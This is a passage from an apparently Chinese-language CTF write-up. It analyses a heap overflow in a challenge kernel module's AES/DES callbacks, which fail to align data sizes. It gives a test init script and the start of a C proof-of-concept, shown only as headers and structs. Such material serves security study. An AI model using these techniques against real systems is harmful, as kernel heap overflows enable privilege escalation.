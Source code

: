 漏洞就出现在这里。 `kkk_aes256_cb` 和 `kkk_aes128_cb` 中，这两个加密函数指定的 `blocksize` 均为 16，但是由于 `obj->datapack.size` 并没有做 16 字节对齐操作，将可能导致内核堆溢出。`kkk_des_cb` 与 `kkk_tdes_cb` 也同理，它也没有保证其 8 字节对齐。 

### 测试

尝试修改 kernel 启动的 init 脚本，对 kkk.ko 单独进行测试。将 `/parser` 启动命令改成 `/bin/sh` 即可。

```bash
#!/bin/sh

mkdir tmp
mount -t proc none /proc
mount -t sysfs none /sys
mount -t devtmpfs devtmpfs /dev
mount -t tmpfs none /tmp

exec 0</dev/console
exec 1>/dev/console
exec 2>/dev/console

echo -e "Boot took $(cut -d' ' -f1 /proc/uptime) seconds"

insmod /kkk.ko
chmod 666 /dev/kkk
chmod 740 /flag
echo 1 > /proc/sys/kernel/kptr_restrict
echo 1 > /proc/sys/kernel/dmesg_restrict
chmod 400 /proc/kallsyms

poweroff -d 600 -f &



# setsid /bin/cttyhack setuidgid 1000 /parser
setsid /bin/cttyhack setuidgid 1000 /bin/sh

umount /proc
umount /sys
umount /tmp

poweroff -d 0  -f
```

堆溢出 PoC 如下，将它静态编译放入文件系统即可。

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

struct AddParam{
    unsigned long long type; // type and enc
    unsigned long long key_len;
    char * key;
    unsigned long long data_len;
    char * data;   
};

struct OtherParam{
    unsigned long long id;
    unsigned long long key_len;
    char * key;
```